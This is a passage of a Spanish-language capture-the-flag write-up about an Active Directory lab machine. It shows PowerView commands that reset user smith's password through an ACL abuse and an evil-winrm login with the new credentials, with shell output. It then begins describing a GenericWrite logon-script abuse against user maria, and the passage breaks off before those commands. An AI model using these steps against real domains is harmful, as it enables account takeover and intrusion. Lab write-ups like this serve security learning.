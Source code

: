 ![](/Object/Pasted_image_20220621111719.png)

![](/Object/Pasted_image_20220621111731.png)

## Consiguiendo el usuario Smith 

Nos sugiere instalar powerview y hacer el cambio de contraseña con esta herramienta:

~~~powershell
 . .\powerview.ps1
~~~
Luego ejecutamos los siguientes comandos:

~~~powershell
$newpass = ConvertTo-SecureString 'Password1234#' -AsPlainText -Force
~~~

~~~powershell
Set-DomainUserPassword -Identity smith -AccountPassword $newpass
~~~

Ahora el usuario smith posee las siguientes credenciales

- User: smith
- Password: Password1234#

Verificamos si tenemos acceso al sistema mediante WinRM con el usuario smith

~~~powershell
evil-winrm -i 10.129.90.135 -u smith -p 'Password1234#'                            

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\smith\Documents> 
~~~

## Consiguiendo el usuario Maria

Para conseguir acceso al usuario maria, Bloodhound nos sugiere utilizar nuevamente el modulo powerview.ps1 junto con sus componentes Set-DomainObject y Get-DomainSPNTicket

Sin embargo, el ataque no fue exitoso, Hacktricks sugiere que se puede usar el GenericWrite para modificar los script de logon.

https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user

Por lo que usamos los siguientes comandos
